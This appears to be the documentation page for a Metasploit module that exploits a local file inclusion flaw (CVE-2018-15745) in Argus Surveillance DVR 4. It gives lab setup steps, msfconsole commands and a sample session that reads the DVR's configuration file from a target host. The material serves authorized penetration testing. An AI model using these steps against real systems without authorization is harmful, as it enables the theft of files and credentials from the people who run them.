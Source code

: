 ## Vulnerable Application
This module leverages an issue with how the `RESULTPAGE` parameter within `WEBACCCOUNT.cgi` handles file referencing and as a result is vulnerable to Local File Inclusion (LFI). 

## Options
To successfully read contents of the Windows file system you must set the full file path of the file you want to check using `TARGET_FILE` (not including the drive letter prefix). 
As a first run it is recommended to try leaking `Windows/system.ini` as a validation exercise on your first module run.

## Testing
To setup a test environment, the following steps can be performed:
1. Set up a Windows operating system (any OS that has C:\Windows\system.ini)
2. Download the [Argus DVR 4 Software](https://download.cnet.com/argus-surveillance-dvr/3000-2348_4-10576796.html)
3. Run the Argus software and a webpage running on port 8080 will appear. Take note of the machine's IP
4. On your attacker machine follow the verification steps below.

## Verification Steps
1. start msfconsole
2. `use auxiliary/gather/argus_dvr4_lfi_cve_2018_15745`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set TARGET_FILE Windows/system.ini`
5. `run`

## Scenarios
### Utilising Argus DVR 4 CVE-2018-15745 to Leak DVRParams.ini
```
msf > use auxiliary/gather/argus_dvr_4_lfi_cve_2018_15745 
msf auxiliary(gather/argus_dvr_4_lfi_cve_2018_15745) > set RHOSTS 192.168.1.15
RHOSTS => 192.168.1.15
msf auxiliary(gather/argus_dvr_4_lfi_cve_2018_15745) > set TARGET_FILE ProgramData/PY_Software/Argus Surveillance DVR/DVRParams.ini
TARGET_FILE => ProgramData/PY_Software/Argus Surveillance DVR/DVRParams.ini
msf auxiliary(gather/argus_dvr_4_lfi_cve_2018_15745) > run
[*] Running module against 192.168.1.15
[*] Sending request to 192.168.1.15:8080 for file: ProgramData/PY_Software/Argus%20Surveillance%20DVR/DVRParams.ini
[+] File retrieved successfully!
[Main]
ServerName=
ServerLocation=
ServerDescription=
ReadH=0
UseDialUp=0
DialUpConName=
DialUpDisconnectWhenDone=0
DIALUPUSEDEFAULTS" checked checked

[*] Auxiliary module execution completed

```

